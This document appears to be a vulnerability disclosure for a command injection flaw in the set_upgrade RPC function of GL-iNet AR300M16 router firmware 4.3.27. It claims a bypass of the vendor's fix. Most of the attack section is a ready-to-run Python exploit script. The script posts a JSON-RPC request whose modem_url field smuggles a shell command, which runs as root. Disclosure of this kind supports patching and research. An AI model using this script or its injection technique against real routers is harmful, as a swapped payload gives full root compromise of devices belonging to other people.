


Submittion Date: 2025.4.18  
Vendor: GL-AR300M16  
Version: 4.3.27   
Firmware: openwrt-ar300m16-4.3.27-0514-1747192506  
Download Link: https://dl.gl-inet.cn/router/ar300m16/stable  

The function set_upgrade handles multiple critical parameter strings (modem_url, target_version, current_version, firmware_upload, hash_type, hash_value, upgrade_type) without proper sanitization or validation, which leads to a command injection vulnerability. By injecting malicious shell metacharacters into these parameters, an attacker can execute arbitrary system commands with root privileges. This can result in full system compromise, including unauthorized access, data theft, or persistent backdoor installation.

Attack Flow：

User-controlled input (v5, v7, v24, etc.)
    ↓
sprintf command string concatenation  
    ↓
fork_exec calls /bin/sh -c
    ↓
Shell parses and executes (command injection)
    ↓
Arbitrary command execution with root privileges


The vendor modified the format string to enhance security, but command injection can still be achieved by means of a bypass.


Exploit the vulnerability by sending a carefully constructed HTTP request

```
import requests

# 目标URL (注意：URL中的/rpc需要根据实际情况调整)
url = "http://192.168.2.10/rpc"

# 请求头 (完全匹配Burpsuite中的headers)
headers = {
    "Host": "192.168.2.10",
    "Content-Length": "247",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Origin": "http://192.168.2.10",
    "Referer": "http://192.168.2.10/",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "Admin-Token=wb1H7fURGJM4dMpIsTQDZM50GNfgmqGd",
    "Connection": "keep-alive"
}

# 请求体 (JSON-RPC命令注入payload)
data = {
    "jsonrpc": "2.0",
    "method": "call",
     "params": [
        "LhYe29M1b07gEYD6M7r0GEhEdf7ZKwf",
        "modem",  
        "set_upgrade",
        {
            "modem_url": "test; echo 123 > /www/pwntest4.txt; ",
            "target_version": "test",
            "current_version": "test",
            "firmware_upload": "test", 
            "hash_type": "test",
            "hash_value": "test",
            "upgrade_type": "test"
        }
    ]
}

# 发送POST请求
try:
    response = requests.post(
        url,
        headers=headers,
        json=data,
        verify=False  # 忽略SSL证书验证
    )
    
    # 输出响应信息
    print(f"Status Code: {response.status_code}")
    print("Response Headers:")
    print(response.headers)
    print("\nResponse Body:")
    print(response.text)
    
except requests.exceptions.RequestException as e:
    print(f"Request failed: {e}")
```

The exploitation is shown below.



